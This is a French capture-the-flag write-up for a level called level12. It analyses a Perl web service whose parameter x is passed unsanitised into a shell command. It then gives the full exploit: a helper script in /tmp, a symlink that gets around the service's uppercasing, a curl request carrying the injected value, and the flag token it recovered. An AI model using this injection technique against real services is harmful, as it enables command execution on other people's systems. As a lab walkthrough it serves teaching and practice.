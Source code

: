 # level12

1. Fichiers trouvés avec `ls` :

```bash
level12.pl
```

2. Analyse du script `level12.pl`

* Le service écoute `127.0.0.1:4646` et traite les paramètres GET `x` et `y`.
* Le script utilise une substitution de commande avec `@output = grep /$x/, @output;` où `$x` est directement inséré dans la commande.
* Problème : la variable `$x` est **concatenée** directement dans une commande shell → **injection shell possible**.


3. Vulnérabilité & objectif

* Le processus s'exécute avec les droits de `flag12` → l'objectif est d'exécuter `/bin/getflag` côté serveur et d'écrire la sortie dans un fichier lisible par l'utilisateur.


4. Exploitation

```bash
# Créer un script malveillant
echo "/bin/getflag > /tmp/token" > /tmp/script.sh
chmod 777 /tmp/script.sh

# Créer un lien symbolique pour contourner les restrictions liées à la mise en uppercase
ln -s /tmp/script.sh /tmp/HACK

# Exploiter l'injection via curl
curl -Gs 'http://127.0.0.1:4646/' \
  --data-urlencode 'x=";/*/HACK;#' \
  --data-urlencode 'y='

# Récupérer le token créé
cat /tmp/token
```

5. Token découvert

Le token est `g1qKMiRpXf53AWhDaU7FEkczr`
